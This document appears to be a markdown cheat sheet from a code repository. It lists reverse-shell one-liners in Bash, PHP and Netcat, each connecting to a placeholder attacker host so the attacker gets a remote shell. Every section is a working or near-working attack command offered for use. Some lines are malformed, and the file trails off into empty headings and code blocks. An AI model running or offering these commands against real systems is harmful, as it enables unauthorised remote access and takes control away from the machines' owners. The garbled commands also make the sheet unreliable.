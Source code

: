 # Bash Reverse Shells

```bash
exec /bin/bash 0&0 2>&0

```

```bash
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

```
```bash
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

while read line 0<&5; do $line 2>&5 >&5; done
```

# PHP Reverse Shell

```php

php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```

# Netcat Reverse Shell

```shell

nc -e /bin/sh ATTACKING-IP 80

/bin/sh | nc ATTACKING-IP 80

rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```
